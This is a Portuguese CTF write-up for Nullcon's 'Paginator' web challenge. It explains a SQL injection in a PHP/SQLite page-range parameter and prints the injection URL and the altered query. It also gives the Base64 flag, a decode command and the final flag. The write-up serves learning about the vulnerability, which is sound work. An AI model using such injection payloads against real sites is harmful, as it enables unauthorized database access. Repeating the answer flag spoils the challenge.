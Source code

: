 # Writeup: Paginator

**Plataforma**: Nullcon CTF  
**Categoria**: Web Exploitation
**Autor**: gehaxelt

## Desafio

O desafio "Paginator" apresenta um site vulnerável a SQL Injection, permitindo acesso não autorizado ao conteúdo do banco de dados SQLite. O objetivo é explorar essa vulnerabilidade para obter a flag.

---

## Solução

### 1. Análise do código

A análise do código PHP revela que a aplicação usa um banco de dados SQLite para armazenar páginas e suas respectivas descrições. O código relevante pode ser visto na imagem abaixo:

![Imagem 1: Código fonte do desafio](./assets/code.jpg)

#### Pontos importantes:

- O banco de dados armazena páginas numeradas de **1 a 10**.
- A flag está armazenada na página "Flag", codificada em **Base64**.
- O código permite consultas SQL diretamente via parâmetro `p` na URL.
- A consulta **NÃO usa prepared statements**, tornando-a vulnerável a **SQL Injection**.

---

### 2. Identificação da vulnerabilidade

O site possui uma funcionalidade para listar páginas dentro de um intervalo de IDs, acessível pela URL:

```
/?p=2,10
```

A consulta SQL gerada é:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10;
```

Como não há filtragem de entrada adequada, podemos manipular o parâmetro para injetar SQL arbitrário.

---

### 3. Explorando a SQL Injection

Ao modificar a URL para:

```
/?p=2,10 OR id=1 --
```

Estamos alterando a consulta SQL para:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR id=1 --
```

Isso força a inclusão da **página com ID 1**, que contém a flag.

**URL injetada:**

![Imagem 2: URL injetada](./assets/sql_injection.jpg)

A resposta do servidor retorna a flag codificada em **Base64**:

```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9
```

---

### 4. Decodificação da Flag

Usamos uma ferramenta online ou o comando `base64 -d` no terminal:

```
echo 'RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9' | base64 -d
```

## Flag

```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}
```

---

## Autor da WriteUp

[Membro de Exploitation - jvittor1](https://github.com/jvittor1)
